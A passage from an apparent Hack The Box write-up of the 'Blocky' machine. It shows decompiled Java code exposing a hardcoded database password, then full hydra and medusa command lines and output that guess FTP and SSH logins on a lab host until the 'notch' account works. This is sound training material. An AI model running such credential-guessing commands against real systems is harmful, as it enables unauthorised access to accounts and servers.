 To decompile the jar files we can first unzip them, then use a tool called jad and run that on the class file.

Looking though the decompiled files I found the following in "BlockyCore"

```
public BlockyCore()
    {
        sqlHost = "localhost";
        sqlUser = "root";
        sqlPass = "8YsqfCTnvxAUeduzjNSXe22";
```


## Initial Compromise


So we now have a password and some potential usernames like "root", "admin" and "notch". So next I just tried these combinations against all the services (ftp, ssh, Wordpress, PhpMyadmin).

And I got a hit on both FTP and  SSH using the notch user and that password.

```
root@kali:~/htb/blocky# hydra -L users.txt -P password.txt -f -o ftphydra.txt -u 10.10.10.37 -s 21 ftp
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2018-12-28 11:18:24
[DATA] max 3 tasks per 1 server, overall 3 tasks, 3 login tries (l:3/p:1), ~1 try per task
[DATA] attacking ftp://10.10.10.37:21/
[21][ftp] host: 10.10.10.37   login: notch   password: 8YsqfCTnvxAUeduzjNSXe22
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2018-12-28 11:18:25
```

The ftp server gives us acces directly to the users home directory. So here we could just upload our public ssh key to be able to log in using SSH without any password.

But as we see below we could just simply login with the password we found as well.

```
root@kali:~/htb/blocky# medusa -U users.txt -P password.txt -e ns -h 10.10.10.37 - 22 -M ssh
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

ACCOUNT CHECK: [ssh] Host: 10.10.10.37 (1 of 1, 0 complete) User: root (1 of 3, 0 complete) Password:  (1 of 3 complete)                                                                               
ACCOUNT CHECK: [ssh] Host: 10.10.10.37 (1 of 1, 0 complete) User: root (1 of 3, 0 complete) Password: root (2 of 3 complete)                                                                           
ACCOUNT CHECK: [ssh] Host: 10.10.10.37 (1 of 1, 0 complete) User: root (1 of 3, 0 complete) Password: 8YsqfCTnvxAUeduzjNSXe22 (3 of 3 complete)                                                        
ACCOUNT CHECK: [ssh] Host: 10.10.10.37 (1 of 1, 0 complete) User: admin (2 of 3, 1 complete) Password:  (1 of 3 complete)                                                                              
ACCOUNT CHECK: [ssh] Host: 10.10.10.37 (1 of 1, 0 complete) User: admin (2 of 3, 1 complete) Password: admin (2 of 3 complete)                                                                         
ACCOUNT CHECK: [ssh] Host: 10.10.10.37 (1 of 1, 0 complete) User: admin (2 of 3, 1 complete) Password: 8YsqfCTnvxAUeduzjNSXe22 (3 of 3 complete)                                                       
ACCOUNT CHECK: [ssh] Host: 10.10.10.37 (1 of 1, 0 complete) User: notch (3 of 3, 2 complete) Password:  (1 of 3 complete)                                                                              
ACCOUNT CHECK: [ssh] Host: 10.10.10.37 (1 of 1, 0 complete) User: notch (3 of 3, 2 complete) Password: notch (2 of 3 complete)                                                                         
ACCOUNT CHECK: [ssh] Host: 10.10.10.37 (1 of 1, 0 complete) User: notch (3 of 3, 2 complete) Password: 8YsqfCTnvxAUeduzjNSXe22 (3 of 3 complete)                                                       
ACCOUNT FOUND: [ssh] Host: 10.10.10.37 User: notch Password: 8YsqfCTnvxAUeduzjNSXe22 [SUCCESS]
```
